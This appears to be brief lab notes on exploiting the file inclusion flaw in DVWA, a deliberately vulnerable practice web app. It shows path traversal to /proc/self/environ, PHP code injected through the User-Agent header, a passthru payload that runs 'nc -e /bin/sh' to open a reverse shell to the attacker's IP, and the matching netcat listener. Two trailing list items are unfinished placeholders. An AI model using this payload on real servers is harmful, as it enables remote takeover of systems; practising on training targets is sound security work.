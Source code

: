 # DVWA

## File Inclusion
1. *"USER_AGENT"* has shown from this path
   - ```10.20.14.209/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environ```
2. Intercept request and modify to ```<?phpinfo();?>``` for test
3. Modify to ```<?passthru("nc -e /bin/sh 10.20.14.208 8888");?>``` for Reverse-shell
4. Attacker machine: ```nc -vv -l -p 8888```
5. s
6. s
